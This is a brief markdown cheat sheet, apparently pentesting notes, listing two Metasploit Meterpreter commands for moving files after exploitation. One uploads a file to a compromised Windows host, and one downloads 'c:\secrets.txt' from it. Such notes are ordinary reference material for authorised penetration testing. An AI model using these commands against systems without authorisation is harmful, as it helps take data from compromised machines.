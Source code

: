 # Metasploit

## Upload Files after Exploitation within Meterpreter

```bash
upload /root/files/secrets.txt c:\\ #(uploads to c drive)
```

## Download Files after Exploitation within Meterpreter

```bash
download c:\secrets.txt secrets.txt
```

